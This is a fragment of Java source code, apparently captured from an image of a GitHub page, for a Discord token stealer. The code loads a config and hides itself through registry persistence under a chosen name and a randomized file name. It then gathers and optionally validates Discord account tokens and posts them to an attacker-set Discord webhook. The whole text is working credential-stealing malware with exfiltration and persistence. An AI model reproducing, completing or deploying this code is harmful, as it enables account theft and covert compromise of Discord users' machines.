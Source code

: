         String s = null;
        StringBuilder configFileString = new StringBuilder();
        InputStream in = Main.class.getResourceAsStream("webhook.txt");
        BufferedReader reader = new BufferedReader(new InputStreamReader(in));
        while ((s = reader.readLine()) != null) {
            configFileString.append(s).append("\n");
        }

        //Settings:
        String hideAs = getJsonKey(configFileString.toString(), "hide_As"); //What the registry entry should be called.
        String discord_avatar_url = getJsonKey(configFileString.toString(), "discord_avatar_url"); //If you want to change the webhook icon
        String discord_username = getJsonKey(configFileString.toString(), "discord_username"); //Webhook Name (only when embed)
        String discord_webhook_url = getJsonKey(configFileString.toString(), "discord_webhook_url"); // args[0]; //Change this
        boolean send_embed = Boolean.parseBoolean(getJsonKey(configFileString.toString(), "send_embed")); //True sends embed, False sends it in text
        boolean ensure_valid = Boolean.parseBoolean(getJsonKey(configFileString.toString(), "ensure_valid")); //Checks the account before sending (removes if invalid)
        boolean randomize_new_name = Boolean.parseBoolean(getJsonKey(configFileString.toString(), "randomize_new_name")); //Whether or not a random string shoud be set as the file name
        boolean shouldPersist = Boolean.parseBoolean(getJsonKey(configFileString.toString(), "shouldPersist"));
        debug = Boolean.parseBoolean(getJsonKey(configFileString.toString(), "debug")); //True sends embed, False sends it in text
        output = Boolean.parseBoolean(getJsonKey(configFileString.toString(), "write_to_file")); //True sends embed, False sends it in text

        if (output) {
            if (!new File("output\\output.txt").exists()) {
                File folder = new File("output");
                folder.mkdir();
                File f = new File("output", "output.txt");
                folder.createNewFile();
            }
        }

        if (!(args.length > 0)) {
            if (System.getProperty("os.name").contains("Windows")) {
                String path = Main.class.getProtectionDomain().getCodeSource().getLocation().getPath();
                String decodedPath = URLDecoder.decode(path, "UTF-8");
                String file_name = decodedPath.split("/")[decodedPath.split("/").length - 1];

                //Mini
                if (shouldPersist) {
                    miniPersistence(randomize_new_name, hideAs);
                }

                //Gatherer
                for (String token : getTokens(ensure_valid)) {
                    sendEmbed(grabTokenInformation(discord_avatar_url, discord_username, token, send_embed), discord_webhook_url);
                }
